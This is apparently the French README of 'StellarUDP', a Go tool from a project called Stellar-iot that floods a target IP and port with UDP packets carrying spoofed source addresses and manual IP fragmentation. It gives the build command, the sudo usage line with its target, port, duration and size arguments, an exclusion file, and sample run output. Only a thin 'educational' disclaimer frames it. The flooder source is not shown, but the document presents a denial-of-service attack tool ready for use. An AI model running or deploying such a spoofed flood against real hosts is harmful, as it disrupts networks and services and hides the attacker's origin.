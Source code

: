 🚀 StellarUDP – Raw UDP Flooder avec Fragmentation IP Manuelle

    Coded by: StellarBots123
    Projet: Stellar-iot
    Nom du fichier: flood.go
    Usage réservé à des fins éducatives ⚠️

🧠 Description

StellarUDP est un outil de stress-test réseau écrit en Go, qui génère un flux de paquets UDP avec IP spoofées et fragmentation manuelle au niveau IP.
Il utilise un bloc CIDR basé sur ton IP publique (via ipinfo.io) pour générer un ensemble réaliste d'IP sources, et permet d'exclure certaines adresses à l’aide d’un fichier exclude.txt.
🛠 Fonctionnalités

    📦 Fragmentation IP manuelle (supporte MTU < 1500)

    🔥 Envoi massif de paquets UDP avec spoof IP

    🌐 Récupération automatique du CIDR de l'IP publique

    🔒 Exclusion d'IP via exclude.txt

    🎯 Personnalisation complète : IP cible, port, durée, taille du paquet

⚙️ Compilation

go build -o flood flood.go

🚀 Utilisation

sudo ./flood <IP_CIBLE> <PORT> <DUREE_SECONDES> <TAILLE_PACKET>

Exemple :

sudo ./flood 192.168.1.100 80 60 4096

    IP_CIBLE : adresse IP de la cible

    PORT : port UDP de destination

    DUREE_SECONDES : durée de l’envoi en secondes

    TAILLE_PACKET : taille totale du payload UDP (jusqu'à 65507 octets)

📁 Fichier exclude.txt

Permet d’exclure certaines adresses IP du spoof (exemple : ton routeur, ton IP publique, etc.)

Exemple :

192.168.1.1
192.168.1.254
203.0.113.50

🧪 Exemple de sortie

[+] Flood Tool by StellarBots123
[-] Disclaimer: This tool is intended for educational purposes only. Use responsibly and legally.
[+] IP externe: 203.0.113.10
[+] CIDR: 203.0.113.0/24
[+] IPs exclues chargées: 3
[+] Cible : 192.168.1.100
[+] Port : 80
[+] Durée : 60 secondes
[+] Taille paquet : 4096
[+] Génération du bloc basé sur le CIDR...
[+] Bloc généré avec 251 IP spoofées.
[+] Terminé après 60 secondes.

⚠️ Avertissement légal

Ce logiciel est fourni à des fins éducatives et de test uniquement.
Toute utilisation non autorisée ou malveillante est strictement interdite.
L’auteur ne peut être tenu responsable de l’usage que vous en faites.

🧑‍💻 Auteur

StellarBots123
Projet : Stellar-iot
Langage : Go
Date : 2025
